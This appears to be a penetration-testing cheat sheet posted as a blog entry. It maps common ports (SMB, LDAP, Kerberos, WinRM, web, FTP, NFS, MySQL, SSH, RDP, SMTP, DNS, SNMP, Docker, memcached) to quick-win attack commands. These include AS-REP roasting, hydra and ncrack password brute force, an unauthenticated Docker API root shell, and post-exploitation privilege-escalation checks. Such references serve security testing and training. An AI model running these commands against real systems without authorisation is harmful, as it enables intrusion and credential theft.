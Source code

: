 ```yaml
---
layout: post
title: "Low Hanging Fruit"
date: 2025-06-30
categories: CheatSheets
---
```


## 🏰 Active Directory / Windows

| Port(s)     | **Why (low-hanging fruit)**                                                 | Quick-Win Commands                                                                         |
| ----------- | --------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| 445 / 139   | Null-session share dump & RID-brute: can leak usernames / passwords.        | `smbclient -L //$IP -N` `enum4linux-ng -A $IP` `rpcclient -U '' $IP -c enumdomusers`       |
| 389 / 636   | Anonymous LDAP bind may reveal users, OUs, even password policy.            | `ldapsearch -x -H ldap://$IP -s base` `windapsearch --dc-ip $IP -U users.txt`              |
| 88 / 464    | AS-REP roast: crackable Kerberos tickets without knowing a password.        | `GetNPUsers.py $DOMAIN/ -usersfile users.txt -no-pass -dc-ip $IP`                          |
| 5985 / 5986 | WinRM often allows PowerShell shells with domain creds—great foothold.      | `evil-winrm -i $IP -u $USER -p <pass/hash>` `crackmapexec winrm $IP -u $USER -p Password1` |
| 135         | RPC endpoint info can confirm DC role and expose attack surface (WMI/DCOM). | `rpcclient $IP -U '' -N -c 'srvinfo'`                                                      |

---

## 🌐 Web

| Port(s)                | **Why**                                                                           | Quick-Win Commands                                                                                                        |
| ---------------------- | --------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| 80 / 443 / 8080 / 8443 | Tech fingerprint + dir brute often exposes admin panels, backups, or RCE uploads. | `whatweb $IP` `ffuf -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://$IP/FUZZ -fc 404` `nikto -h $IP` |

---

## 🗃️ File-Transfer

| Port   | **Why**                                                                    | Quick-Win Commands                                                           |
| ------ | -------------------------------------------------------------------------- | ---------------------------------------------------------------------------- |
| 21     | Anonymous FTP can host config files / creds; writable dirs → shell upload. | `ftp $IP` (`anonymous:anonymous`) `nmap --script ftp-anon,ftp-syst $IP -p21` |
| 69/udp | TFTP rarely has auth—grab configs, firmwares, sometimes shadow files.      | `tftp $IP` → `get *`                                                         |
| 2049   | World-readable NFS exports let you read /root or push a set-uid shell.     | `showmount -e $IP` `sudo mount -t nfs $IP:/export /mnt`                      |
| 3306   | Blank-root or weak creds lead to file-write (INTO OUTFILE) ⇒ web-shell.    | `mysql -u root -h $IP -p''` `nmap --script mysql-empty-password $IP -p3306`  |

---

## 🔐 Remote Access

| Port | **Why**                                                              | Quick-Win Commands                                                         |
| ---- | -------------------------------------------------------------------- | -------------------------------------------------------------------------- |
| 22   | Weak passwords & obsolete ciphers still common; banner leaks distro. | `ssh -v $IP` `ssh-audit $IP` `hydra -L users.txt -P rockyou.txt ssh://$IP` |
| 23   | Legacy telnet boxes often keep default creds; banner gives OS.       | `telnet $IP` `hydra -L users.txt -P rockyou.txt telnet://$IP`              |
| 3389 | Mis-set RDP (NLA off) → BlueKeep or brute; weak domain creds reused. | `rdpscan $IP` `ncrack -U users.txt -P rockyou.txt rdp://$IP`               |

---

## ✉️ Mail

| Port(s)        | **Why**                                                    | Quick-Win Commands                                                                          |
| -------------- | ---------------------------------------------------------- | ------------------------------------------------------------------------------------------- |
| 25 / 465 / 587 | VRFY/EXPN leaks valid users; open relay = spam pivot.      | `nmap --script smtp-enum-users,smtp-open-relay $IP -p25` `swaks --to root@$IP --server $IP` |
| 110 / 143      | CAPA output sometimes exposes plaintext creds; easy brute. | `nmap --script pop3-capabilities,imap-capabilities $IP -p110,143`                           |

---

## 🛰️ Infrastructure

| Port    | **Why**                                                            | Quick-Win Commands                                                                  |                 |
| ------- | ------------------------------------------------------------------ | ----------------------------------------------------------------------------------- | --------------- |
| 53      | Zone-transfer can dump entire internal DNS in one shot.            | `dig axfr @$IP $DOMAIN` `dnsrecon -d $DOMAIN -t axfr`                               |                 |
| 161/udp | Default “public” community leaks hostnames, users, routes.         | `snmpwalk -v2c -c public $IP 1.3.6.1.2.1.1` `onesixtyone -c community.txt $IP`      |                 |
| 2375    | Docker socket unauth → pull/build containers = instant root shell. | `curl http://$IP:2375/containers/json` `docker -H tcp://$IP:2375 run -it alpine sh` |                 |
| 11211   | Exposed memcached lets you dump cached creds or website sessions.  | \`printf "stats\n"                                                                  | nc \$IP 11211\` |

---

## 🗡️ Post-Exploit One-Liners

| System  | **Why**                                                        | Command                                            |        |
| ------- | -------------------------------------------------------------- | -------------------------------------------------- | ------ |
| Linux   | Mis-configured sudoers is fastest privilege escalation.        | `sudo -l`                                          |        |
| Linux   | SUID binaries with write perms → privesc path.                 | \`find / -perm -4000 -type f 2>/dev/null           | head\` |
| Windows | Privileged tokens (SeImpersonate etc.) enable Potato exploits. | `whoami /priv`                                     |        |
| Windows | World-write ACLs on services allow binary overwrite → SYSTEM.  | `icacls "C:\Program Files" /findsid *S-1-5-32-544` |        |

---